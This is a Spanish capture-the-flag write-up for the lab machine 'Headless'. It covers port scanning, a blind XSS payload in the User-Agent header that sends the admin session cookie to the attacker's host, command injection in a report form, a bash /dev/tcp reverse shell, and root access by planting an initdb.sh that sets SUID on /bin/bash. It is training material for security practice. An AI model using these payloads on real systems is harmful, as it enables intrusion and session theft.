

# Headless

`Headless` es una máquina Linux de dificultad fácil que cuenta con un servidor `Python Werkzeug` que aloja un sitio web. El sitio web tiene un formulario de soporte al cliente, que se ha descubierto que es vulnerable a Cross-Site Scripting (XSS) ciego a través del encabezado `User-Agent`. Esta vulnerabilidad se aprovecha para robar una cookie de administrador, que luego se utiliza para acceder al panel de control del administrador. La página es vulnerable a la inyección de comandos, lo que lleva a un shell inverso en el equipo. Al enumerar el correo del usuario se revela un script que no utiliza rutas absolutas, que se aprovecha para obtener un shell como root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Headless**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.8 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 00:11 CET
Initiating SYN Stealth Scan at 00:12
Scanning 10.10.11.8 [65535 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed SYN Stealth Scan at 00:12, 18.92s elapsed (65535 total ports)
Nmap scan report for 10.10.11.8
Host is up, received user-set (0.069s latency).
Scanned at 2025-01-27 00:12:00 CET for 18s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.07 seconds
           Raw packets sent: 65627 (2.888MB) | Rcvd: 65636 (2.626MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.8
	[*] Open ports: 22,5000

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web en el puerto 5000.

```bash
❯ nmap -sCV -p22,5000 10.10.11.8 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 00:17 CET
Nmap scan report for 10.10.11.8
Host is up (0.056s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   108.99 ms 10.10.16.1
2   31.35 ms  10.10.11.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.98 seconds

```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Accederemos a [http://10.10.11.8:5000](http://10.10.11.8:5000) y verificaremos que nos encontramos con el siguiente sitio web, el cual probaremos de acceder a la opción de "For questions".

<figure><figcaption></figcaption></figure>

Revisamos que se trata de una nueva página web que contiene un formulario de contacto. Interceptaremos esta solicitud con **FoxyProxy+BurpSuite** para verificar el funcionamiento de esta solicitud al enviar el formulario.

<figure><figcaption></figcaption></figure>

En el resultado obtenido en **BurpSuite**, nos encontramos la manera en la que se tramitan los datos. No encontramos nada inusual de momento, verificaremos más adelante si podemos realizar algo con esto.

<figure><figcaption></figcaption></figure>

Haremos una enumeración de directorios en el sitio web, nos encontramos a través del resultado de `gobuster` un nuevo directorio llamado `dashboard`.

```bash
❯ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```

Al probar de acceder a [http://10.10.11.8:5000/dashboard](http://10.10.11.8:5000/dashboard), nos encontramos con un mensaje de `Unauthorized`.

<figure><figcaption></figcaption></figure>

Este mensaje de error, parece muy parecidos a los predeterminadas de `Flask`.

<figure><figcaption></figcaption></figure>

## Initial Access

### XSS Injection via custom header

Revisando nuevamente en la página web donde nos proporcionan un formulario, verificamos que disponemos de una Cookie de sesión.

<figure><figcaption></figcaption></figure>

También verificamos que al acceder a http://10.10.11.8:5000/dashboard, el atributo de `HttpOnly` se encuentra en `False`, por lo cual podríamos intentar realizar un ataque de `Cookie Hijacking` para robar una cookie de sesión.

<figure><figcaption></figcaption></figure>

Al probar de enviar en el formulario, en uno de los campos, las etiquetas de `<script>`, el propio servidor al parecer lo detecta como intento de hacking y nos bloquea la dirección IP. En el resultado por parte del servidor, al parecer lo que también se muestra es la solicitud que hemos enviado, en la cual aparecen nuestra información.

<figure><figcaption></figcaption></figure>

Por lo tanto, podríamos intentar probar de inyectar en las cabeceras código HTML/JS y verificar si al enviar la solicitud el servidor en el output que nos mostraban aparecían. Efectivamente, en este caso, al modificar nuestro `User-Agent` en el output del servidor se interpretaron las etiquetas HTML indicadas.

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

## Stealing administrator user session cookie via XSS

Por lo tanto, lo que probaremos es de realizar un `Cookie Hijacking` para robar la cookie de sesión de algún usuario que se encuentre revisando nuestra solicitud, en el caso de que lo haya...

Nos levantaremos un servidor web en nuestro equipo.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el campo de `User-Agent` estableceremos la siguiente inyección XSS para que nos envíe la cookie del usuario.

```javascript
<script>var i=new Image(); i.src="http://10.10.16.5/?cookie="+document.cookie;</script>
```

Al pasar un tiempo, verificamos que recibimos una cookie diferente a la nuestra, por lo que parece ser que un usuario ha revisado nuestro formulario y hemos logrado obtener su cookie.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.5 - - [27/Jan/2025 00:38:22] "GET /?cookie=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 200 -
10.10.11.8 - - [27/Jan/2025 00:38:28] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

Al descodificar esta cookie obtenida, verificamos que el usuario del que se trata es del usuario `admin`.

```bash
❯ echo 'ImFkbWluIg' | base64 -d; echo
"admin"
❯ echo 'dmzDkZNEm6CK0oyL1fbM-SnXpH0' | base64 -d; echo
vlÑ�D���Ҍ����base64: entrada inválida
```

Regresaremos a la página de [http://10.10.11.8:5000/dashboard ](http://10.10.11.8:5000/dashboard)y modificaremos la cookie actual, por la cookie robada del usuario `admin`

<figure><figcaption></figcaption></figure>

Verificamos que al refrescar el sitio web, logramos acceder al panel de Administración. Interceptaremos la solicitud que se realiza al generar el reporte cuando le damos al botón de `Generate Report`.

<figure><figcaption></figcaption></figure>

### Command Injection in web panel

En el resultado interceptado, probamos de modificar los valores del campo`date` y se nos generaba el reporte pero no nos lograba mostrar ningún tipo de información interesante.

<figure><figcaption></figcaption></figure>

En este caso, probamos de enviarle un valor aleatorio y verificamos que por parte del servidor, aparece que se ha generado correctamente el reporte.

<figure><figcaption></figcaption></figure>

Si pensamos en lo que está haciendo el servidor, es probable que esté tomando la fecha y buscando información sobre lo que estaba sucediendo en el informe en esa fecha. Si puede hacerlo desde Python, eso está bien. Pero si necesita ejecutar algunos comandos del sistema, es posible que esté tomando nuestra entrada y construyendo el comando a partir de ella, y luego llamando algo como subprocess.run o os.system con esa cadena.

Para comprobarlo, intentaremos agregar ; id al final de la fecha. Comprobamos que hemos logrado ejecutar comandos en el panel.

<figure><figcaption></figcaption></figure>

Por lo tanto, al lograr obtener un RCE, el siguiente paso será lograr establecernos una conexión al sistema.

Desde nuestra máquina atacante, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutarems el sigueinte comando para establecernos una Reverse Shell.

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.5/443+0>%261'
```

<figure><figcaption></figcaption></figure>

Verificamos que logramos obtener acceso al servidor y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.8] 52348
bash: cannot set terminal process group (1379): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ cat /home/dvir/user.txt
cat /home/dvir/user.txt
4d7ed1324***********************
```

## Privilege Escalatioon

### Abusing sudoers privilege

Revisando si el usuario `dvir` que disponemos actualmente, disponía de algún permiso de `sudoers`, nos encontramos que si dispone de este privilegio sobre el binario `/usr/bin/check`.

```bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Revisando este binario, nos encontramos con el siguiente script.

El script `syscheck` realiza las siguientes funciones:

1. Verifica si el script se ejecuta con privilegios de root. Si no es así, termina con un error.
2. Obtiene y muestra la fecha y hora de la última modificación del kernel en `/boot`.
3. Muestra el espacio disponible en disco en la partición raíz (`/`).
4. Muestra el promedio de carga del sistema (load average).
5. Verifica si el servicio de base de datos (representado por `initdb.sh`) está en ejecución. Si no lo está, lo inicia; si ya está en marcha, muestra un mensaje indicando que el servicio está activo.

```bash
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

dvir@headless:~/app$ ls -l /usr/bin/syscheck
-r-xr-xr-x 1 root root 768 Feb  2  2024 /usr/bin/syscheck
```

Primero de todo, revisaremos si el archivo `initdb.sh` existe en alguna ruta del sistema. Verificamos que no existe este archivo, por lo tanto, podríamos aprovecharnos de este script prara crear un archivo `initdb.sh` que haga una acción que queramos, dado que el script indicaba que si el script no estaba iniciado, lo ejecutaría.

En este caso, optamos por darle permisos de `SUID` al /bin/bash para convertirnos en usuario`root`. Creamos un archivo llamado `initdb.sh` que realizaría un cambio en el binario `/bin/bash` para darle permisos de `SUID`. Al ejecutar el binario con permisos de `sudo`, verificamos que se ha ejecutado el script y el binario de `/bin/bash` tiene permisos de `SUID`.

```bash
dvir@headless:~/app$ find / -name initdb.sh 2>/dev/null
dvir@headless:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:/tmp$ cat initdb.sh
#!/bin/bash

chmod u+s /bin/bash
dvir@headless:/tmp$ chmod +x initdb.sh
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```

Dado que el usuario `root` es el propietario de `/bin/bash` y ahora este último tiene permisos de `SUID`, abusaremos de esto para convertirnos en usuario `root` y visualizar la flag **root.txt**.

```bash
dvir@headless:/tmp$ bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
9f968961c41*********************
```
